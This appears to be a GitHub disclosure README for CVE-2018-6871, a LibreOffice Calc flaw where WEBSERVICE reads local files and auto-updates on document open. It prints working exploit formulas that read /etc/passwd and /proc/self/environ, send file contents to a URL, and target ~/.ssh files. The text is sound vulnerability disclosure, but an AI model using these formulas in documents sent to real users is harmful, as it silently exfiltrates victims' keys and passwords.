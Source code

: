 # Vulnerability description

[CVE-2018-6871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6871)

## First part

LibreOffice supports COM.MICROSOFT.WEBSERVICE function:

    https://support.office.com/en-us/article/webservice-function-0546a35a-ecc6-4739-aed7-c0b7ce1562c4

The function is required to obtain data by URL, usually used as:

    =FILTERXML(WEBSERVICE("http://api.openweathermap.org/data/2.5/forecast?q=Copenhagen,dk&mode=xml&units=metric");"number(/weatherdata/forecast/time[2]/temperature/@value)")

In original:

    For protocols that are not supported, such as ftp: // or file: //, WEBSERVICE returns the #VALUE! error value.

In LibreOffice, these restrictions are not implemented.

## Second part

By default the cells are not updated, but if you specify the cell type like ~error, then the cell will be updated when you open document.

# Exploitation

To read file you need just:

    =WEBSERVICE("/etc/passwd")

This function can also be used to send a file:

    =WEBSERVICE("http://localhost:6000/?q=" & WEBSERVICE("/etc/passwd"))

For successful operation, you need to send the files of the current user, so you need to retrieve current user home path.

    =MID(WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")) + 5, SEARCH(CHAR(0), WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")))-FIND("USER=",

Also you can parse other files too, like a ~/.ssh/config or something like that.

For other than LibreOffice Calc formats you just need embed calc object to other document (I checked it works).

# Impact

It is easy to send any files with keys, passwords and anything else. 100% success rate, absolutely silent, affect LibreOffice prior to 5.4.5/6.0.1 in all operation systems (GNU/Linux, MS Windows, macOS etc.) and may be embedded in almost all formats supporting by LO. 

# Acknowledgment

Vulnerability was parallely found by me (@jollheef) and Ronnie Goodrich && Andrew Krasichkov according to LibreOffice team notes.
